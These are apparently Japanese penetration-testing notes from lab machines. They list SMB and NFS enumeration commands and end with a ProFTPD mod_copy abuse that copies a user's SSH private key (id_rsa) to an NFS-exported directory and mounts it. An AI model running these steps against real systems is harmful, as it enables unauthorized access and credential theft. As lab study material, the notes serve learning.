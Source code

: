###ファイルの列挙
~~~smbmap -R Replication -H 10.10.10.100~~~

##nmap script
###ファイル共有の一覧を列挙
~~~smb-enum-shares.nse~~~

###リモートの Windows システム上のユーザーを列挙
~~~smb-enum-users.nse~~~

~~~nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.162.244~~~

##smbclient
###サーバー上の SMB/CIFS リソースにアクセスする
~~~smbclient //10.10.162.244/anonymous~~~

##smbget
###SMB 経由でファイルをダウンロード
~~~smbget -R smb://10.10.162.244/anonymous~~~

##ポート111が開いている場合はマウント可能なディレクトリがないか調べることができる
~~~nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.182~~~

### mod_copy モジュールは SITE CPFR と SITE CPTO コマンドを実装しており、
### サーバー上のある場所から別の場所にファイルやディレクトリをコピーするために使用できます。認証されていないクライアントは、
### これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーすることができます。
この仕様を悪用してsshの秘密鍵をマウント可能な領域に移動する。
例:
~~~nc $IP 21~~~

###コピー元のファイルを指定する
~~~SITE CPFR /home/kenobi/.ssh/id_rsa~~~

###コピー先を指定する
~~~SITE CPTO /var/tmp/id_rsa~~~

###コピーしたら自分のマシンにマウントする
~~~mkdir /mnt/kenobiNFS~~~
~~~mount $IP:/var /mnt/kenobiNFS~~~
